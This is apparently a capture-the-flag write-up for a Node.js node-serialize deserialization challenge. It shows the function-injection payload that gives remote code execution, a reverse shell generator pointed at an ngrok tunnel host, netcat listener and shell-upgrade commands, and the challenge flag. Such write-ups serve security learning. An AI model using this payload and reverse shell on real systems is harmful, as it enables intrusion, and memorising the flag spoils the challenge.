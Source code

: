 ```yaml
---
layout: default
title: Node-Serialize
---
```


Based on this paper [node js deserialization](https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf), I reliazed i can inject something from this kind:
```js
{"rce":"_$$ND_FUNC$$_function (){
  some-js-code
}()"
}
```

And then, it'll execute the js-code.
(Of course we need to send it base64-encoded...)

I'm using the reverse shell from here [nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py), although I've modified it by a bit, this is our script:
```py
{% include_relative scripts/Node-Serialize.py %}
```

We can run it with our ngrok tunnel, in my case:
```bash
python3 nodejsshell.py 2.tcp.eu.ngrok.io 15620
```

This is the ngrok tunnel I set up, using this command:
```bash
ngrok tcp 777
```

![ngrok](./images/Node-Serialize_ngrok.png)

And then just send the b64-encoded string, don't forget to set up a listening port, in my case, in port 777:
```bash
nc -nvlp 777
```

here I'm sending the payload:
![send payload](./images/Node-Eval_send_payload.png)

And this is the shell I got.
![FINAL](./images/Node-Serialize_FINAL.png)

I've used those commands from hack-tools chrome extension, to make the shell better looking:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
stty rows 38 columns 116
```

**Flag:** **_`Y3pS3r0d3c0mp4nY1sB4d!`_**
